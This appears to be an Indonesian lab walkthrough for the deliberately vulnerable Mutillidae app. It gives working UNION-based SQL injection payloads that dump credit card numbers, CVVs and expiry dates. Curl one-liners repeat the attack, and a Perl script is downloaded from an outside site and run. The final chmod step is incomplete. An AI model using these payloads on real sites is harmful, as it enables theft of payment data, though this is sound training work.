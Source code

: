 # Mutillidae Lesson 8

### SQL Injection (Contoh #1)
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
```
"size=100"`
```
- Isi form Name dengan string berikut
	```
    ' union select null -- //selalu tambahkan spasi setelah "--"
    ```
- Klik View Account Details
- Keterangan: Jumlah null melambangkan jumlah field pada tabel. 
- Hasil error disebabkan karena jumlah field tidak sesuai.


### SQL Injection (Contoh #2)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select null,null,null,null,null -- //selalu tambahkan spasi setelah "--"
```
- Klik View Account Details
- Keterangan: Untuk mengetahui jumlah field pada tabel dengan diulang dengan mencoba-coba hingga tidak terjadi error. Pada contoh diatas jumlah field-nya ada 5 sehingga ditulis null sebanyak 5.
- Hasilnya kosong karena nilai yang dimasukkan semuanya null.

### SQL Injection (Contoh #3)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select 1,2,3,4,5 -- //selalu tambahkan spasi setelah "--"
```
- Keterangan: Tujuannya adalah untuk mencari tahu urutan field pada tabel. Urutan field username, password, dan signature didapatkan sesuai dengan nilai yang dimasukkan.

### SQL Injection (Contoh #4)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards --  //selalu tambahkan spasi setelah "--"
```
- Keterangan: Tujuannya adalah untuk mencari mengambil nilai dari tabel credit_cards sesuai dengan urutannya.
- Hasil :
```
Username berisi ccnumber
Password berisi ccv
Signature berisi expiration
```

### SQL Injection (Contoh #5)
- Tujuannya sama dengan Contoh #4 dengan perbedaan pada metode yang menggunakan curl.
- Buka terminal dan jalankan perintah dibawah
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[ip_metasploit]/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
```
- Maka hasilnya akan sama dengan Contoh #4.
- Untuk menyimpan hasil kedalam sebuah file jalankan perintah berikut
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[ip_metasploit]/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
cat lesson8.txt
```
- Karena hasilnya susah dibaca, download dan jalankan output parser
```
cd /root
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
mv lesson8.pl.TXT lesson8.pl
chmod 700
lesson8.pl
./lesson8.pl
```
    
